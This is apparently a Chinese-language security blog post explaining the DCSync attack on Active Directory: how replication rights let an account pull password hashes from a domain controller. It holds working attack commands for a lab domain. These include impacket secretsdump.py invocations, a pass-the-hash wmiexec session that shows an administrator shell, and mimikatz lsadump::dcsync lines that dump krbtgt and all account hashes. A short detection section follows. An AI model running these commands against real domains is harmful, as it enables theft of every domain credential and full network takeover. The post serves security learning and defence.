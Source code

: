 ```yaml
---
title: DCsync原理及利用
date: 2019-12-31 23:59:50 +0800
categories: [域安全, TA0006凭据访问]
tags: [dcsync, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# DCsync原理及利用

## 原理

域中的账户、密码信息是存储在域控机器上`C:\Windows\NTDS\NTDS.dit`文件里, 以往是需要在域控机器上执行dump hash操作的；而通过DCSync，则可以从其他机器上，远程从`C:\Windows\NTDS\NTDS.dit`中获取密码hash。相比于在域控上访问lsass.exe进程或拷贝`NTDS.dit`、`System` 文件，其噪音更小。

[Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) 是一个RPC协议，用于复制和管理Active Directory中的数据。如果账户具有以下[扩展权限](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10))，即可调用DRS服务提供的接口[GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)，向Domain Controller请求复制NC中数据。`Replicating Directory Changes`不能复制secret domain, 必须加上`Replicating Directory Changes All`权限。

- Replicating Directory Changes (DS-Replication-Get-Changes)
  *Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which excludes secret domain data). This constraint is only meaningful for Domain NCs.*
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
  *Control access right that allows the replication of all data in a given replication NC, including secret domain data.*
- *Replicating Directory Changes In Filtered Set (rare, only required in some environments)*

默认情况下，Administrators, Domain Admins,  Enterprise Admins 及 Domain Controllers组中的账户有权限执行DCSync。



![image-20201115172519581](/assets/img/image-20201115172519581.png)

![image-20201115172857881](/assets/img/image-20201115172857881.png)

**DCSync 流程:**

1. Discovers Domain Controller in the specified domain name.
2. Requests the Domain Controller replicate the user credentials via [GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)



## 实现

![image-20201115182337527](/assets/img/image-20201115182337527.png)

第三个参数`DRS_MSG_GETCHGREQ* pmsgIn`里定义了需要同步的数据，其数据结构定义如下:

![image-20201115181818373](/assets/img/image-20201115181818373.png)



`secretsdump.py`中`def DRSGetNCChanges`对DCSync的实现:

![image-20201115182006964](/assets/img/image-20201115182006964.png)

可以看到secretdump.py 请求同步了这些数据:

![image-20201115182230673](/assets/img/image-20201115182230673.png)



 [dcsync.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/dcsync.pcapng) 

![image-20201220155630670](/assets/img/image-20201220155630670.png)



## 利用

### 查找具有DCSync权限的账户

```
//AD自带工具
dsacls "DC=ring2,DC=com"
```

![image-20201115185039484](/assets/img/image-20201115185039484.png)

```
// powershell activedirectory module
import-module activedirectory
get-acl "AD:\DC=ring2,DC=com" |Select-Object -ExpandProperty Access
```

![image-20201115185304928](/assets/img/image-20201115185304928.png)

```
Import-Module ActiveDirectory

cd 'AD:DC=ring2,DC=com'

$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups

foreach ($ACL in $AllReplACLs){

    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)

    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])

    $RID = $SID.ToString().Split("-")[7]

    if([int]$RID -gt 1000)

    {

        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference

    }

}
```



### impacket-secretsdump.py

```
python secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py -just-dc [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py ring2.com/win10:Test1234@ringdc-pc.ring2.com
```



获取域控机器密码Hash后，可使用Pass-the-hash登录域控机器

```
C:\Users\win10\AppData\Local\Programs\Python\Python37\Scripts>python wmiexec.py ring2.com/administrator@ringdc-pc.ring2.com -hashes "aad3b435b51404eeaad3b435b51404ee:b9e0cfceaf6d077970306a2fd88a7c0a"
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
ring2\administrator
```



### mimikatz

```
mimikatz "lsadump::dcsync /domain:ring2.com /user:Administrator"
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
mimikatz "lsadump::dcsync /domain:[FQDN_DOMAIN] /all /csv"
```



## 检测

通过检测发出DsGetNCChange请求的不是已知域控IP来检测。

*获取域控IP：*

PowerShell Active Directory module cmdlet:

> Get-ADDomainController -filter * | select IPv4Address


PowerShell:

> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | select IPAddress



![Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges](/assets/img/Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges.jpg)







## 参考

[Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

[DC Sync Attacks With Secretsdump.py](https://www.youtube.com/watch?v=QfyZQDyeXjQ&t=697s)



